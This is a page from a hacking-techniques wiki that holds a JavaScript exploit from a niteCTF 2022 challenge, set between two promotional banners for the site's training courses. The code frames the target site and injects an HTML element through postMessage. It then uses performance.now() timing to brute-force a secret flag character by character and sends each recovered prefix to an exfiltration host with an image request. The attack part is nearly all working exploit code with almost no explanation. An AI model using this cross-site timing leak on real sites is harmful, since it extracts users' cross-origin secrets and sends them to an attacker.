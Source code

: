 # performance.now example

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms));

async function check(flag) {
    let w = frame.contentWindow;
    w.postMessage({'op': 'preview', 'payload': '<img name="enable_experimental_features">'}, '*');
    await sleep(1);
    w.postMessage({'op': 'search', 'payload': flag}, '*');
    let t1 = performance.now();
    await sleep(1);
    return (performance.now() - t1) > 200;
}

async function main() {
    let alpha = 'abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}';
    window.frame = document.createElement('iframe');
    frame.width = '100%';
    frame.height = '700px';
    frame.src = 'https://challenge.jsapi.tech/';
    document.body.appendChild(frame);
    await sleep(1000);

    let flag = 'nite{';
    while(1) {
        for(let c of alpha) {
            let result = await Promise.race([
                check(flag + c),
                new Promise((res) => setTimeout(() => { res(true); }, 300))
            ]);
            console.log(flag + c, result);
            if(result) {
                flag += c;
                break;
            }
        }
        new Image().src = '//exfil.host/log?' + encodeURIComponent(flag);
    }
}

document.addEventListener('DOMContentLoaded', main);
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>
